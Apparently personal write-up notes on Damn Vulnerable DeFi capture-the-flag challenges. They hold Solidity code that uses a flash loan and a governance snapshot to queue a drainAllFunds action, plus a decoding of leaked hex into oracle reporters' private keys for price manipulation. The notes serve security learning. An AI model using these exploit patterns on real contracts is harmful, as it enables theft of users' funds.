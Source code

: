 ```ad-info
 and we can take a flashloan from this contract
 ````ad-tip
 title: code
 ```  function attack() public {
uint256 MAX = pool.token().balanceOf(address(pool));
pool.flashLoan(MAX);
}
function receiveTokens(address token, uint256 amount) external {
governanceToken.snapshot();
pool.governance().queueAction(
address(pool),
abi.encodeWithSignature("drainAllFunds(address)", msg.sender),
0
);
governanceToken.transfer(address(pool), amount);
}```
```
```ad-info
title:# Challenge #7 - Compromised
While poking around a web service of one of the most popular DeFi projects in the space, you get a somewhat strange response from their server. This is a snippet:

          HTTP/2 200 OK
          content-type: text/html
          content-language: en
          vary: Accept-Encoding
          server: cloudflare

          4d 48 68 6a 4e 6a 63 34 5a 57 59 78 59 57 45 30 4e 54 5a 6b 59 54 59 31 59 7a 5a 6d 59 7a 55 34 4e 6a 46 6b 4e 44 51 34 4f 54 4a 6a 5a 47 5a 68 59 7a 42 6a 4e 6d 4d 34 59 7a 49 31 4e 6a 42 69 5a 6a 42 6a 4f 57 5a 69 59 32 52 68 5a 54 4a 6d 4e 44 63 7a 4e 57 45 35

          4d 48 67 79 4d 44 67 79 4e 44 4a 6a 4e 44 42 68 59 32 52 6d 59 54 6c 6c 5a 44 67 34 4f 57 55 32 4f 44 56 6a 4d 6a 4d 31 4e 44 64 68 59 32 4a 6c 5a 44 6c 69 5a 57 5a 6a 4e 6a 41 7a 4e 7a 46 6c 4f 54 67 33 4e 57 5a 69 59 32 51 33 4d 7a 59 7a 4e 44 42 69 59 6a 51 34
        

A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each

This price is fetched from an on-chain oracle, and is based on three trusted reporters: `0xA73209FB1a42495120166736362A1DfA9F95A105`,`0xe92401A4d3af5E446d93D11EEc806b1462b39D15` and `0x81A5D6E50C214044bE44cA0CB057fe119097850c`.

Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.
````ad-tip
there is 3 contract in this challenge 
- Exchange
-- which is used to sell and buy DVNFT
- TrustfulOracleinitilzed
- TrustfulOracle
-  which act as a oracle for the Exchange  and if you are a trusted reporter you can post a price and  2/3 of the reports can change the price as the exchange will take  the median 
after decoding the hex we got a base64  which we can decode again so after we decode  we have
 ``` add1 = 0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
  add2 = 0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
 it is private key  
 to get the address from the private key we can do
const oracle1 = new ethers.Wallet(add1, ethers.provider);
const oracle2 = new ethers.Wallet(add2, ethers.provider);
console.log(oracle1.address);
console.log(oracle2.address); 
and these address are the reporters address which mean we can change the price of the oracle
```